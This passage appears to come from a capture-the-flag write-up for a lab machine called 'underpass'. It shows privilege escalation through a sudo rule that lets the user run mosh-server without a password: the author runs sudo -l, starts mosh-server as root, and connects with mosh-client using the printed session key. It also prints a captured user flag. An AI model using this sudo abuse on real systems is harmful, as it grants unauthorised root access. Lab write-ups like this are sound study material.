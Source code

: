 ```
uid=1002(svcMosh) gid=1002(svcMosh) groups=1002(svcMosh)
svcMosh@underpass:~$ cat user.txt
2bdede980a405ba29a2be9504d01d0fa
svcMosh@underpass:~$ 
```

Well, I thought of a good thing... Now let's see how we can take over the shell...

Let's see if **sudo -l** gives us something

```
svcMosh@underpass:~$ sudo -l

Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
svcMosh@underpass:~$ 
```

hmm, interesting let's see what it is...

```
svcMosh@underpass:~$ /usr/bin/mosh-server


MOSH CONNECT 60001 4lX1fU5ingfp0i82ja1JvQ

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 1532]
svcMosh@underpass:~$ 
```

I didn't know about this protocol at first... I checked and it's a server component of Mosh (Mobile Shell), and is an improved alternative to SSH designed for unstable or high-latency connections.

I read the documentation for this and I noticed that we can create and connect to this connection...

I thought: but what if we create a connection with sudo and connect to it? will we automatically have to connect as root?
well it's not enough to think about it but I should also try... after reading the documentation I found the commands:

```
svcMosh@underpass:~$ sudo /usr/bin/mosh-server


MOSH CONNECT 60002 SxhpnRDhzXTopCXBNZHEPA

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 1545]
svcMosh@underpass:~$ MOSH_KEY=SxhpnRDhzXTopCXBNZHEPA mosh-client 127.0.0.1 60002
```
